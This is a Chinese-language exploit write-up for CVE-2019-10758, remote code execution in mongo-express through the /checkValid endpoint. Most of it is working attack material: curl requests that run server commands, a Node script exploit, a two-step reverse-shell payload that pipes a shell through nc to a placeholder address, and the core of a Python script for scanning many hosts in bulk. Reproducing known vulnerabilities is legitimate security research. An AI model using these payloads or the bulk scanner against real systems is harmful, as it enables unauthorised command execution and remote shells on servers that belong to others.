 （CVE-2019-10758）Mongo expres rce
==================================

一、漏洞简介
------------

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid
从外部接收输入，并调用了存在 RCE
漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

二、漏洞影响
------------

mongo-express \< 0.54.0

三、复现过程
------------

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

    docker run -p 27017:27017 -d mongo
    npm install mongo-express@0.53.0 
    cd node_modules/mongo-express/ && node app.js

#### cURL exploit

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'

![](./resource/(CVE-2019-10758)Mongoexpresrce/media/rId26.png)

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")'

![](./resource/(CVE-2019-10758)Mongoexpresrce/media/rId27.png)

#### Script exploit

    node main.js

#### main.js

    exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

    var bson = require('mongo-express/lib/bson')
    bson.toBSON(exploit)

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f")

#### POST BODY 2：

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f")

### 批量监测脚本【只放核心代码】

    payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")'

    def http_request(url,path_out):
        try:
            print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
            vulurl = url + "/checkValid"
            r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)
            if r.status_code == 200 and 'Valid' in r.text:
                print("\033[1;40;32m'Good Found!' {}\033[0m".format(vulurl))
                #printGreen("[+]" + url)
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
        except Exception as err:
            print(err)
